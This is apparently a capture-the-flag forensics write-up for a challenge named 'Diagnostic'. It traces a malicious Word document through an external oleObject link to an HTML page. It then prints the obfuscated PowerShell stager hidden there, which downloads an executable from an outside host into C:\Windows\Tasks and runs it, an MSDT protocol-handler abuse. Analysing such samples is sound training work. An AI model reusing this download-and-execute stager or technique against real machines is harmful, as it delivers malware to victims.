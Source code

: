 # Write-up :Diagnotic
* *1.Given a host which we can use to retrieve the doc file .download the doc with wget :*
```python
$ wget IP/layoffs.doc
```
* *2.use `oleid` on the document found an External Relationships* 
* *3.use `oleobj` for details* 
* *4.Found relationship 'oleObject' with external link http://diagnostic.htb:32218/223_index_style_fancy.html!* 
* *5.download the html file with wget :*
```python
$ wget IP/223_index_style_fancy.html!
```
* *6. find two base64 chunk in html inside a script tag the first one contain a powershell script :* 
```powershell
${f`ile} = ("{7}{1}{6}{8}{5}{3}{2}{4}{0}"-f'}.exe','B{msDt_4s_A_pr0','E','r...s','3Ms_b4D','l3','toC','HT','0l_h4nD')
&("{1}{2}{0}{3}"-f'ues','Invoke','-WebReq','t') ("{2}{8}{0}{4}{6}{5}{3}{1}{7}"-f '://au','.htb/2','h','ic','to','agnost','mation.di','/n.exe','ttps') -OutFile "C:\Windows\Tasks\$file"
&((("{5}{6}{2}{8}{0}{3}{7}{4}{1}" -f'L9FTasksL9F','ile','ow','L','f','C:','L9FL9FWind','9FkzH','sL9F'))  -CReplAce'kzH',[chAr]36 -CReplAce([chAr]76+[chAr]57+[chAr]70),[chAr]92)
```

* *7.the `file` variable is the **flag**just take the first line to a power shell or reorder the string and you get the flag:* 

flag : HTB{msDt_4s_A_pr0toC0l_h4nDl3r...sE3Ms_b4D}

